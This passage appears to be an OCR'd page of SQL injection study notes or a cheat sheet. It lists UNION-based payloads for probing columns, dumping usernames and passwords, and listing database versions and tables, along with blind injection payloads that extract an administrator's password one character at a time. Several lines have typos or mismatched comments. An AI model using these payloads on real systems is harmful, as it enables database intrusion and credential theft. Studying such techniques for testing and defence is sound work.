        ```sql
       --Payloads:
       ' UNION select 'a',NULL,NULL--
       ' UNION select NULL,'a',NULL--
       ' UNION select NULL,NULL,'a'-- and so on
       ```

    4. when we determined number of columns and column datatype we can try to retrieve additional sensitive data:

       ```sql
       --Payloads:
       ' UNION sekect username, password from users--
       ```

    5. Retrieve multiple values in single column if query return only one column with string concatenation:

       ```sql
       --Payloads:
       ' UNION SELECT username || '~' || password FROM users-- (Oracle, Postgres)
       ' UNION SELECT username + '~' + password FROM users-- (SQLServer)
       ' UNION SELECT username '~' password FROM users-- (MySQL) or...
       ' UNION SELECT concat(username, concat('~',password)) FROM users-- (MySQL)
       ```

    6. Query Database information with UNION based attack

       ```sql
       --Payloads for Database Version Listing
       ' UNION SELECT @@version-- SQLServer, MySQL
       ' UNION SELECT * FROM v$version --Oracle
       ' SELECT version() --Postgres
       ```

       ```sql
       --Payloads for content listing
       -- most database (except for Oracle):
       ' UNION select table_name from information_schema.tables
       -- then...
       ' UNION select column_name from information_schema.tables where table_name='MYTAB'
       --Content listing Oracle
       ' UNION select table_name from all_tables
       --then...
       ' UNION select column_name from all_tab_columns where table_name='MYTAB'
       ```

## Step-by-Step: Blind SQLi vulnerabilities

- different exploit techniques:

  1. Triggering different responses conditionally depending injected condition:

     ```sql
     --Payloads to check for SQLi vulnerability without reflected query results
     ' AND '1'='1  --> returns true, so results should be returned as expected
     ' AND '1'='2  --> returns false, so no results should be returned
     --Example: table called users with columns username and password and user called 'administrator'
     --first determine password length
     ' AND (SELECT 'a' FROM users WHERE username='administrator' AND LENGTH(password)>3)='a
     --we can systematically determine password for this user by sending series of inputs to test password one character at a time
     ' AND SUBSTRING((SELECT Password FROM Users WHERE Username = 'administrator'), 1, 1) > 'm -->returns true if first character of password is > t, else false
     ' AND SUBSTRING((SELECT Password FROM Users WHERE Username = 'administrator'), 1, 1) = 's --> and so on until we have the matching first character of passwd